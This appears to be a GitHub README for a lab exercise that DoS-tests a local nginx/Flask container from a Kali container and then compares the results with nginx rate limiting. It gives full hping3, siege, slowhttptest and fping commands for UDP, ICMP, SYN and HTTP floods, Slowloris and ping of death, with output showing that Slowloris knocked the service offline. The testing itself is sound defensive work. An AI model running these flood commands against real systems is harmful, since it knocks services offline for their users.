 # Tasks
* create attacker Kali linux container (using UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death attacks)
* create defender container
* measure attacker vs non-defended container and attacker vs properly defended container

# Additional resource
* https://pentest.blog/how-to-perform-ddos-test-as-a-pentester/

# App
Is a simple nginx ([image link](https://hub.docker.com/_/nginx)) which proxies request to Flask app that returns 200 "Ok".

# Kali Linux

Used `kalilinux/kali-rolling` see [link](https://www.kali.org/docs/containers/using-kali-docker-images/)

## Udp flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source --udp -p 8080 nginx
```

## ICMP flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source -1 -p 8080 nginx
```

## HTTP flood
used [siege](https://www.kali.org/tools/siege/)
```
    $ siege -b -c250 -t60s http://nginx:8080
```

## Slowloris attack
used Kali package [slowhttptest](https://www.kali.org/tools/slowhttptest/)
```
    $ slowhttptest -c 1050 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://nginx:8080 -x 24 -p 3
```

## Syn flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 -S --flood -V -p 8080 nginx
```


## Ping of death
used [fping](https://www.kali.org/tools/fping/)
```
    $ fping -b 65510 nginx
```

# Results

Following command used to determine health of our application
```
    $ watch -n 1 'curl -i http://localhost:8080 -w %{time_total}'
```
Normal output:
```
Every 1,0s: curl -i http://localhost:8080 -w %{time_total}

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
   0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0 100     2  100     2    0     0   2000      0 --:--:-- --:--:-- --:--:--  2000
HTTP/1.1 200 OK
Server: nginx/1.21.4
Date: Tue, 04 Jan 2022 12:45:08 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 2t
Connection: keep-alive
C
Ok0,001719
```


Also we'll monitor docker stats using [TIG stack](https://hackmd.io/@lnu-iot/tig-stack)

## standart nginx config without additional defence

* udp flood

This attack doesn't seem to affect our application (possibly because we're not listening to udp ports :D ).
The only thing we can track is increased amount of incomming traffic to nginx container:
![Screenshot from 2022-01-03 18-21-29](https://user-images.githubusercontent.com/19594637/147954476-4faface4-860d-4d0e-b1b2-3bcc42e3a565.png)


* icmp flood

This attack doesn't seem to work on nginx:1.21/
We can only observe increase traffic on nginx container:
![Screenshot from 2022-01-03 18-35-30](https://user-images.githubusercontent.com/19594637/147955909-0c201d5c-0cc0-4139-986a-9d0f87fbc552.png)


* http flood

Using one kali linux container the only thing I could achieve is to siginficantly increase response times of the application (from 1-2ms in normal to 750ms-1.5sec under load).
Also we can observe increase CPU and traffic on our nginx container:
![Screenshot from 2022-01-03 18-58-40](https://user-images.githubusercontent.com/19594637/147958096-40632afc-3a05-4c6c-bd23-6d0bdfe4923e.png)


* slowloris attack

Once we've reached 1022 connection we'll successfuly DOSed our service
```
slow HTTP test status on 35th second:

initializing:        0
pending:             0
connected:           1022
error:               0
closed:              28
service available:   NO
```
And our watch curl command results show us that our application was unable to server requests
```
curl: (52) Empty reply from server
```
What is really dangerous about this kind of attack is that it does not seems to be easy to track using metrics (the only spike for nginx container is RAM)
![Screenshot from 2022-01-03 18-11-12](https://user-images.githubusercontent.com/19594637/147953506-abca9fc6-685f-4faf-9e31-4055c1146df2.png)

* syn flood

Doesn't seem to bother our application availability:
```
Lifting the server siege...
Transactions:		       98327 hits
Availability:		      100.00 %
Elapsed time:		      179.49 secs
Data transferred:	        0.19 MB
Response time:		        0.36 secs
Transaction rate:	      547.81 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		      199.59
Successful transactions:       98327
Failed transactions:	           0
Longest transaction:	        3.20
Shortest transaction:	        0.00

```
![Screenshot from 2022-01-04 13-53-13](https://user-images.githubusercontent.com/19594637/148055345-17b2e7a6-76ce-4b5a-911d-7f21816a8fa5.png)

* Ping of death

Does not seems to be reproducable with modern software
```
fping: data size 65510 not valid, must be lower than 65488
```


## nginx with additional defence ([source](https://www.nginx.com/blog/mitigating-ddos-attacks-with-nginx-and-nginx-plus/))

* http flood

Adding limit_req directive restricts too much request from one ip.
Because of this our siege command failed really early:
```
{	"transactions":			          14,
	"availability":			        1.09,
	"elapsed_time":			        2.69,
	"data_transferred":		        0.24,
	"response_time":		       42.63,
	"transaction_rate":		        5.20,
	"throughput":			        0.09,
	"concurrency":			      221.87,
	"successful_transactions":	          14,
	"failed_transactions":		        1269,
	"longest_transaction":		        0.80,
	"shortest_transaction":		        0.00
}
```
Still we can observe short CPU spikes when we try the attack:
![Screenshot from 2022-01-04 14-56-38](https://user-images.githubusercontent.com/19594637/148062494-60ce1905-fcfb-4fb2-b950-6f648006eacd.png)

